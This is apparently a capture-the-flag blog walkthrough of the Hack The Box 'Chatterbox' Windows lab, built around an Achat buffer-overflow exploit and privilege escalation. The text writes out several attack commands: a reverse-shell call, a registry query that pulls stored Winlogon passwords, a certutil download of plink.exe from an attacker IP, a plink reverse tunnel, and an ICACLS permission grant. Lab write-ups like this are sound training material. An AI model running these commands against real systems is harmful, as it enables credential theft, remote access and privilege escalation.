 ```yaml
---

title: "Chatterbox HTB"
date: 2024-01-23 20:17:41 +0800
categories: [Chatterbox-HTB, Medium]
tags: [Chatterbox, Medium-Windows, HTB Walkthrough]

---
```


Fast forward to this series, I am working on all of the boxes that lead to OSCP. Mainly focusing on Thinking Methodology “Why we are doing what we’re doing.” End of the road, I am gonna create a mind map. Please shower me with constructive feedback. I try to improve as I progress.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Analyzing Nmap result:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
There’s a 9255 and 9256 ports one is TCP & the other one is UDP. Both are functioning as an Achat Chat system httpd.
The operating system is Windows 7601 Service Pack 1.
The port we have discovered is 9256(UDP, Achat). Upon searching for vulnerabilities through searchsploit.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
we can spot this vulnerability, Remote Buffer Overflow.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Upon inspecting the payload, we can see that all the bad characters are already placed for us. Upon execution, it is running calc.exe in order for the payload to be worked.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
There are 2 ways of getting an initial foothold onto the system with this exploit. It can be more with Metasploit exploit. This procedure is based on no metasploit methods. This is better because this machine resembles OSCP boxes, where the use of Metasploit is limited to one machine.
Seeing the payload size is limited to around 512 bytes, which is relatively very low.
we can normally use staged payloads here. So, it will be taking fewer bytes now. And execute back from the victim machine later.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
So, for this exploit to work, we have to create a payload. The bad characters are already written for us inside the code. Just needed to add address and payload options to gain a shell. In this case a reverse shell. So you can generate the following payload.
Example payload:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
For this method to work, we need to run a Python server. While hosting the InvokeTcp Reverse shell PowerShell file from Nishang’s Powershell scripts.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Don’t forget to add Invoke-PowershellTcp -Reverse -IPAddress <IP> -Port 443 at the end of the file inside the Powershell script which you have been uploading.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And and, This can get you the shell you are looking for…
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Method #2:
Non-Staged vs Staged Payloads:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And Tada!! User flag is found.
Still, we can’t access the root.txt inside the administrator directory.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
reg query “HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon” 2>nul | findstr “DefaultUserName DefaultDomainName DefaultPassword”
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
we got the Alfred user’s password. we got some results out of system enumeration.
Let us continue to surf more with network enumeration.
netstat -ano → for information about ports that were running on the system.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Seem’s like these two ports 135 and 445 are invisible from our scan.
So, these ports are open on the local network and invisible to the outside network with an Nmap scan. And yes we can absolutely use port forwarding similar to the SSH port forwarding. Since we have no active SSH connection right now.
Using a Putty tunnel can be a better option since it supports port forwarding. If we are able to establish a putty connection from the Alfred machine. Then we might have a chance of escalating the privileges further.
certutil -urlcache -f http://10.10.14.89/plink.exe plink.exe
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
I was using this 32-bit executable from the Putty website.
after getting our putty on the victim machine.
Make sure the root access is permitted from our Kali machine with making sure changing this setting and configuring the SSH at line 32.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Change this from 22 to a random working port if this method doesn’t work then try again. Since my HTB is blocking away 22 ports for some reason.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
plink.exe -l kali -pw toor -P 4545 -R 445:127.0.0.1:445 10.10.14.89
Can get us access to our root shell. So, basically, it sign in our box as root to the inside chatterbox machine. This didn’t work in my case.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Going forward I have tried the Metasploit method but it didn’t as well.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Method #2:
Since we are given access to the Administrator directory but seems like we don’t have access to the root.txt file inside it.
I was running around trying gigantic things this is so simple approach.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
ICACLS root.txt /grant “Users”: F
After this, we can easily access it.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And we got ROOOOOT Flag!!
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
But it still is a good learning curve,
You’ll get to use System Enumeration commands to find hidden passwords. And how to Execute PowerShell commands on the victim machine remotely with Windows/exec CMD. File transfers. Upgrading the Netcat shell to Meterpreter shell. Finally Elevating File permissions. I did learn a lot of cool tricks out of this machine. Hopefully, you had fun too.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
why we are doing, what we are doing?
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Thank you for following up.